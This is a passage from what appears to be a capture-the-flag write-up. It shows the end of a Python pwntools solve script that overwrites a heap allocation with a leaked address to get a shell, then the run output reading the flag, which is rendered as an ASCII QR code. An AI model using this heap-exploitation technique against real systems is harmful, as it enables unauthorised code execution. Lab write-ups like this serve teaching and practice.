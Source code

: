     # claim heap allocation
    payload = "0xdf".ljust(40, "\x00").encode() + p64(present_addr)
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b'deed?\n', b'48')
    r.sendlineafter(b'deed\n', payload)
    
    # trigger
    r.sendlineafter(b'> ', b'2')
    r.interactive()
    

Running it gives a shell and I can read `FLAG`:

    
    
    $ python solve.py 152.96.7.2 
    [+] Opening connection to 152.96.7.2 on port 1337: Done
    [+] Found present addr: 55a2a13df98a
    [*] Switching to interactive mode
     $ cd challenge
    $ cat FLAG
    
    
            ##############  ##    ####  ####    ##############
            ##          ##  ######  ######  ##  ##          ##
            ##  ######  ##      ##############  ##  ######  ##
            ##  ######  ##      ##    ####  ##  ##  ######  ##
            ##  ######  ##  ########        ##  ##  ######  ##
            ##          ##  ##    ##    ##  ##  ##          ##
            ##############  ##  ##  ##  ##  ##  ##############
                            ##  ######  ######
            ######    ####  ######    ######  ########    ####
            ####  ####    ##  ####    ##    ######        ####
            ######      ######    ##      ##    ##    ##  ####
            ####  ##      ##  ##      ##  ####    ####      ##
                ####  ####    ##  ######        ##  ##      ##
              ##              ##    ##      ####  ##      ##
            ####    ##  ########    ########      ##  ##    ##
                ##        ##      ####  ####  ##########
            ####  ########  ##        ################    ##
                            ##        ########      ##  ##
            ##############    ##  ##        ##  ##  ##      ##
            ##          ##  ######    ##    ##      ####  ####
            ##  ######  ##    ##  ######  ############  ######
            ##  ######  ##      ##  ##        ##          ##
            ##  ######  ##  ######  ########    ##  ##########